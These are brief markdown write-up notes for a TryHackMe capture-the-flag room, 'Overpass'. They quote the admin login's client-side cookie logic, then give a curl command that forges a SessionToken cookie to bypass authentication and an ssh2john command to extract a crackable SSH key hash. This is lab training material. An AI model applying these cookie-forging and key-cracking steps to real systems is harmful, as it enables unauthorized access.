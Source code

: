 # Overpas 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | medium 
Os | linux

**Notes :**




## Gaining Access 😉

-  breakthorugh found on source code of admin login page
   ◇ if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
    
- curl -L -b "SessionToken=letmein" 10.10.248.173/admin/
- python ssh2john.py key > h.hash



## Maintaining Access 🥷
- 


## Important commands 🔥
```
curl -L -b "SessionToken=letmein" 10.10.248.173/admin/
```
- `python ssh2john.py key > h.hash`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡



--------------------------------
**By Nibras Muhammed** 🤓🖥️






